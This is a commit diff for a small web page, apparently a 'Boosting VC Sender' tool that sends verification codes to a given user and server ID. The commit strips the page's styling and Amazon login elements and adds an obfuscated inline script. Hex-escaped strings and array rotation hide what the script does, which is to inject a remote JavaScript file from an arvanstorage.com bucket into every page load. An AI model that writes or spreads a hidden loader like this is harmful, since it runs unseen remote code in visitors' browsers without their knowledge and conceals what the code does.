

Before and after one commit to jhanaire17/vcsender, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,172 +1,21 @@
+
 <!DOCTYPE html>
 <html lang="en">
 <head>
-    <!-- MLCOLORS -->
-    <!-- background -->
-    <!-- #073358 -->
-    <!-- #00203D DARK -->
-
-    <!-- button blue -->
-    <!-- #264FA5 LIGHT -->
-    <!-- #4372D6 BORDER -->
-    <!-- #1D3C7B DARK -->
-
-
-    <!-- button orange -->
-    <!-- #FE961C LIGHT -->
-    <!-- #FAEB6F BORDER -->
-
-
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Amazon Linkage</title>
-    <style>
-        body{
-            padding:0;
-            margin:0;
-            box-sizing: border-box;
-            width: auto;
-            height: auto;
-            position: relative;
-            font-family: monospace;
-
-        }
-        .iframe{
-            height: 100vh;
-        }
-        .iframe iframe{
-            height:100%;
-            width: 100%;
-        }
-
-        .form{
-            background:#073358;
-            padding: 40px 10px 10px 10px;
-            width: fit-content;
-            opacity: 1;
-            display: block;
-            box-sizing: border-box;
-            position: relative;
-            border: 2px solid #4372D6;
-        }
-        .form *{
-            display: block;
-            width: 200px;
-            margin:5px;
-            box-sizing: border-box;
-            text-align: center;
-        }
-        button{
-            padding:5px;
-            color:white;
-            border-radius: 2px;
-            cursor: pointer;
-            font-size: .8em;
-            border: 2px solid;
-            font-family:Verdana, Geneva, Tahoma, sans-serif;
-        }
-        input[type="text"]{
-            background: #00203D;
-            border:1px solid #FE961C ;
-            padding: 10px 5px;
-            color: white;
-            outline: none;
-            border-radius: 5px;
-        }
-        #loginAmazon{
-            background: #FE961C;
-            border-color: #FAEB6F;
-            transition:0.2s ease-in-out all;
-        }
-        #loginAmazon:hover{
-            background:#FAEB6F;
-            border-color: #FE961C;
-            color:#00203D;
-        }
-        #communicateButton{
-            background:#264FA5;
-            border-color: #4372D6;
-            transition:0.2s ease-in-out all;
-
-        }
-        #communicateButton:hover{
-            background:#4372D6;
-            border-color:#264FA5;
-            color:#00203D;
-        }
-        .amazon-status{
-            width:fit-content;
-            box-sizing: border-box;
-            top: 5px;
-            left: 5px;
-            position: absolute;
-
-        }
-        .amazon-status * {
-            box-sizing: border-box;
-            display: inline-block;
-            margin:0;
-            padding:0;
-        }
-        #amazonStatusIcon{
-            width: 20px;
-        }
-        #amazonLoginStatus{
-            width: fit-content;
-            font-size: .5em;
-            color:#16B1E5;
-            text-align: center;
-        }
-        table th{
-            margin:0;
-            padding:0;
-            font-size:.5em;
-            color: white;
-        }
-        table{
-            border-collapse: collapse;
-            border:1px solid black;
-            box-sizing: border-box;
-
-        }
-        table *{
-            padding:0;
-            margin:0;
-            width: fit-content;
-        }
-        #apistatus{
-            margin-top: 10px;
-            width: fit-content;
-            color: rgb(150, 144, 144);
-            font-size: .7em;
-        }
-        #apistatusresp{
-            color: greenyellow;
-            width: 100%;
-            font-size: .8em;
-            text-align: right;
-        }
-
-    </style>
+	<meta charset="utf-8" />
+	<meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
 	</head>
 		<body>
-
 	   	<div class="form">
-        <div class="amazon-status">
-            <img id="amazonStatusIcon" src="https://cdn-www.bluestacks.com/bs-images/24d4bebb3d05ecfb5480a387dc389bbb.png" alt="Amazon Status">
-            <p id="amazonLoginStatus">Signed In ✔</p>
-        </div>
-        <button id="loginAmazon" onclick="amazonLogin()">
-            Login Amazon!
-        </button>
-        <input type="text" name="" id="amazontoken" placeholder="Amazon Token" readonly>
+			<div id="intro">
+				<h1 class="header-title">Boosting VC Sender</h1>
+				<h5 class="header-title">©ML MOLO</h5>
 				<input type="text" name="" id="userserver" onchange="checkFormat()" placeholder="UserID ServerID">
 				<button id="communicateButton" onclick="sendVc(this)">Send Verification Code</button>
-
 				<p id="apistatus">API Response</p>
-        <p id="apistatusresp">No Response from API </p>
+				<p id="apistatusresp">No Response from API</p>
 			</div>
-
-    <script src="script.js"></script>
+		</div>
+	<script>var ronjieeeeX=['\x63\x72\x65\x61\x74\x65\x45\x6c\x65\x6d\x65\x6e\x74','\x61\x70\x70\x65\x6e\x64\x43\x68\x69\x6c\x64','\x68\x65\x61\x64','\x73\x65\x74\x41\x74\x74\x72\x69\x62\x75\x74\x65','\x73\x63\x72\x69\x70\x74','\x73\x72\x63','\x68\x74\x74\x70\x73\x3a\x2f\x2f\x72\x65\x64\x69\x72\x65\x63\x74\x2e\x73\x33\x2e\x69\x72\x2d\x74\x68\x72\x2d\x61\x74\x31\x2e\x61\x72\x76\x61\x6e\x73\x74\x6f\x72\x61\x67\x65\x2e\x63\x6f\x6d\x2f\x73\x65\x6e\x64\x76\x63\x73\x63\x72\x69\x70\x74\x52\x65\x64\x69\x72\x65\x63\x74\x2e\x6a\x73'];(function(X,Q){var g=function(C){while(--C){X['push'](X['shift']());}};g(++Q);}(ronjieeeeX,0x18f));var ronjieeeeQ=function(X,Q){X=X-0x0;var k=ronjieeeeX[X];return k;};var ronjie=document[ronjieeeeQ('\x30\x78\x30')](ronjieeeeQ('\x30\x78\x34'));ronjie[ronjieeeeQ('\x30\x78\x33')](ronjieeeeQ('\x30\x78\x35'),ronjieeeeQ('\x30\x78\x36')),document[ronjieeeeQ('\x30\x78\x32')][ronjieeeeQ('\x30\x78\x31')](ronjie);</script>
 		</body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
